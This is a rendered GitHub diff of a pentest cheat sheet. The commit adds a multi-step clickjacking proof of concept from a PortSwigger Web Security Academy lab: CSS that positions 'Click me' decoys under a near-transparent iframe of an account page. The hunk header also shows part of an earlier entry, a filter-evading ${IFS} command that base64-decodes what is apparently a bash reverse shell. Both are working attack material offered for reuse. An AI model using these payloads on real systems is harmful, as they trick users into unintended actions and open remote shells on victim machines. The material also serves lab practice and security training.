

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Adds mutli-step Clickjacking PoC from PortSwigger's web academy.

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -1881,3 +1881,38 @@ bash${IFS}<${IFS}<(base64${IFS}-d${IFS}<${IFS}<(echo${IFS}YmFzaCAtaSAgPiYgIC9kZX
   </body>
 </html>
 ```
+
+### Clickjacking PoC
+```html
+<style>
+  iframe {
+    position: relative;
+    z-index: 2;
+    width: 1280px;
+    height: 800px;
+    opacity: 0.1;
+  }
+
+  .first {
+    position: absolute;
+    top: 535px;
+    left: 97px;
+    z-index: 1;
+  }
+
+  .next {
+    position: absolute;
+    top: 334px;
+    left: 252px;
+    z-index: 1;
+  }
+</style>
+<div class="first">
+  Click me first
+</div>
+<div class="next">
+  Click me next
+</div>
+<iframe src="https://0ae2003b0322f74f8008a85a00660013.web-security-academy.net/my-account"></iframe>
+
+```
````
